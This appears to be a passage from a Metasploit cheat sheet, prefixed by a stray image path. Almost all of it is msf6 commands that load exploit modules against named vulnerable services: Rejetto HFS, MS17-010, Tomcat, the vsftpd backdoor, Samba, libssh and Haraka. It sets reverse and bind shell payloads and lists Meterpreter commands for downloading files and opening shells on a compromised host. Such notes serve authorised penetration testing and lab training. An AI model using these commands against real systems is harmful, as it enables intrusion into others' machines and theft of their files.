 #### Rejetto HFS

```
msf6 > use exploit/windows/http/rejetto_hfs_exec
msf6 > set payload windows/x64/meterpreter/reverse_tcp
```

#### MS17-010

```
msf6 > use exploit/windows/smb/ms17_010_psexec
```

#### Apache Tomcat

```
msf6 > use exploit/multi/http/tomcat_jsp_upload_bypass
msf6 > set payload java/jsp_shell_bind_tcp
```

#### VSFTPD

```
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
```

#### Samba (Pipename)

```
msf6 > use exploit/linux/samba/is_known_pipename
```

#### SSH Libssh

```
msf6 > use auxiliary/scanner/ssh/libssh_auth_bypass
```

#### SMTP Haraka

```
msf6 > use exploit/linux/smtp/haraka
```

---

### Post-Exploitation with Meterpreter

```
meterpreter > help
meterpreter > download <file>
meterpreter > search -d <dir> <filename>
meterpreter > shell
```

#### Upgrade Shell

```
msf6 > use post/multi/manage/shell_to_meterpreter
```

---